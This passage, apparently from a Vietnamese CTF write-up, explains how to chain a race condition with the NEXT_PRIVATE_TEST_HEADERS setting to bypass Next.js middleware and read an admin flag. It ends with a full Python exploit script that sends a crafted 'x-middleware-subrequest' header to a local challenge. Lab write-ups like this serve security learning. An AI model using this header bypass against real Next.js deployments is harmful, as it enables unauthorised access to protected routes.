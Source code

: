 ```python=
    if (
      header === 'x-middleware-subrequest' &&
      headers['x-middleware-subrequest-id'] !==
        (globalThis as any)[Symbol.for('@next/middleware-subrequest-id')]
    ) {
      delete headers['x-middleware-subrequest']
    }
  }
}

```

Như ta đã thấy cve này vá thêm 1 header khác đó là `x-middleware-subrequest`
Vậy làm sao để bypass qua ta có `NEXT_PRIVATE_TEST_HEADERS` (Tắt chức năng filter header dành cho các anh dev)
auke để hệ thống lại cho dễ hiểu

1. Muốn lấy được flag phải qua được middleware -> dùng header đã có payload exploit sẵn
2. để set được header -> qua được hàm filterInternalHeaders -> ta có `NEXT_PRIVATE_TEST_HEADERS`
3. Nhưng làm sao để set được `NEXT_PRIVATE_TEST_HEADERS` -> race condition

![image](https://hackmd.io/_uploads/B1PssOsxex.png)

in ra con ngựa là thành công
![image](https://hackmd.io/_uploads/SJZTo_oxge.png)

```python=
import asyncio
import httpx

CHALL_URL = "http://localhost:8003"

async def start_next(client):
    r = await client.post(f"{CHALL_URL}/start")
    r.raise_for_status()
    return r.text

async def set_env(client, env: str):
    r = await client.post(f"{CHALL_URL}/csrf", data={"token": env})
    if r.status_code == 500:
        # it's fine, env var was set anyway
        pass
    return r.text

async def get_flag(client):
    headers = {
        #"x-nextjs-data": "1",
        "x-middleware-subrequest": "src/middleware:src/middleware:src/middleware:src/middleware:src/middleware" #
    }
    r = await client.get(f"{CHALL_URL}/admin/flag", headers=headers)
    return (r.status_code, r.text)

async def main():  # thiết lập ham main
    async with httpx.AsyncClient(timeout=None) as client: # thiết lập client
        starter = asyncio.create_task(start_next(client)) # tạo task
        await asyncio.sleep(1) # mini race to set env var
        print(await set_env(client, "NEXT_PRIVATE_TEST_HEADERS")) # set env var
        print(await starter)
        await asyncio.sleep(1) # wait for the nextjs app to start
        _, html = await get_flag(client)
        if "fake{" in html:
            print("🐴🐴🐴🐴")
            #print(html)
```